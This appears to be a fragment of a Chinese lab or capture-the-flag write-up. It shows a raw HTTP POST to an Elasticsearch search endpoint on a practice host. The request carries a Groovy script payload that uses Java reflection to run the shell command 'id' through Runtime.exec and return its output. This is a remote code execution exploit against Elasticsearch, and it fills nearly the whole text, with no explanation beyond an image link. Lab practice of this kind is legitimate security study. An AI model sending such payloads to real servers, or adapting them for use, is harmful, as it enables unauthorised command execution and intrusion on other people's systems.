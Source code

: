 

```
POST /_search?pretty HTTP/1.1
Host: eci-2zeiruv5maej7rdx7viy.cloudeci1.ichunqiu.com:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 491

{
    "size":1,
    "script_fields": {
        "test#": {  
            "script":
 
             "java.lang.Math.class.forName(\"java.io.BufferedReader\").getConstructor(java.io.Reader.class).newInstance(java.lang.Math.class.forName(\"java.io.InputStreamReader\").getConstructor(java.io.InputStream.class).newInstance(java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getInputStream())).readLines()",
 
            "lang": "groovy"
        }
    }
 
}
```

![image-20230712155854973](%E9%9D%B6%E5%9C%BA.assets/image-20230712155854973.png)
